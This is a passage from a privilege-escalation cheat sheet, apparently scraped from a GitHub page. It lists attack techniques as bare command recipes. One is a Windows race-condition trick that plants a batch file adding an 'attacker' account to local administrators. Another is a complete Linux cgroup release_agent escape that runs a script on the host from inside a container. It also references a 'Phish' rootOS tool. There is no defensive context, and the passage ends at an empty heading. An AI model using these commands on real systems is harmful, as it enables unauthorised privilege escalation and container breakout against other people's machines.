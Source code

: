 Type: Phish

Methods:

-   https://github.com/thehappydinoa/rootOS

-   Python rootOS.py

<a name="race-conditions"></a>
# Race Conditions

Domain: No

Local Admin: Yes

OS: Windows

Type: Race Condition

Methods:

-   echo \"net localgroup administrators attacker /add\" \>
    > C:\\temp\\not-evil.bat

-   tempracer.exe C:\\ temp\\\*.bat

<a name="abusing-usermode-helper-api"></a>
# Abusing usermode helper API

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Capabilities

Methods:

-   d=\`dirname \$(ls -x /s\*/fs/c\*/\*/r\* \|head -n1)\`

-   mkdir -p \$d/w; echo 1 \> \$d/w/notify_on_release

-   t=\`sed -n \'s/.\*\\perdir=\\(\[\^,\]\*\\).\*/\\1/p\' /etc/mtab\`

-   touch /o; echo \$t/c \> \$d/release_agent

-   echo \"\#!/bin/sh\" \> /c

-   echo \"ps \> \$t/o\" \>\> /c

-   chmod +x /c

-   sh -c \"echo 0 \> \$d/w/cgroup.procs\"; sleep 1

-   cat /o

<a name="escape-only-with-cap_sys_admin-capability"></a>
# Escape only with CAP_SYS_ADMIN capability
